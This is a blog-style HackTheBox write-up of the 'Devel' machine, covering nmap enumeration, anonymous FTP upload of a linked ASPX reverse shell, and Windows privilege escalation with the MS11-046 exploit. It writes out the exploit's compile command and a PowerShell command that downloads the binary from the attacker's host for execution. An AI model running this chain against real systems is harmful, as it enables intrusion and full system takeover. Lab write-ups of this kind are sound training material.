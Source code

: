 ```yaml
---
layout: single
title: HackTheBox - Devel Writeup
permalink: /hackthebox-devel-writeup/
excerpt: "Devel is an easy machine on the hackthebox platform. I can upload a webshell in FTP with anonymous login and get administrator/system using the Windows Kernel Exploits."
classes: wide
header:
  teaser: "/assets/images/htb/devel/home_img.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - writeup
tags:
  - aspx-reverse-shell
  - CVE-2011-1249
---
```



![1](/assets/images/htb/devel/home_img.png)


# <u>1:Enumeration</u>

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/all_ports.png)

### <u>Open Ports</u>
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

## <u>FTP</u>
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](/assets/images/htb/devel/ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

## <u>WebPage</u>
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](/assets/images/htb/devel/welcome.png)

- COOL!

# <u>2:Foothold/Gaining Access</u>

## <u>ASPX Reverse Shell</u>
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](/assets/images/htb/devel/got_shell.png)

- I'm in as `iis apppool\web`

## <u>systeminfo</u>

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](/assets/images/htb/devel/systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

# <u>3:Privilege Escalation</u>

## <u>MS11-046</u>

![1](/assets/images/htb/devel/exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### <u>Compiling Exploit</u>
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### <u>Transfer the Exploit</u>
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](/assets/images/htb/devel/exe.png)

- YES! I'm become `SYSTEM`

## <u>User Flag</u>

![1](/assets/images/htb/devel/user.png)

## <u>Administrator Flag</u>

![1](/assets/images/htb/devel/admin.png)

# <u>4:Conclusion</u>
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)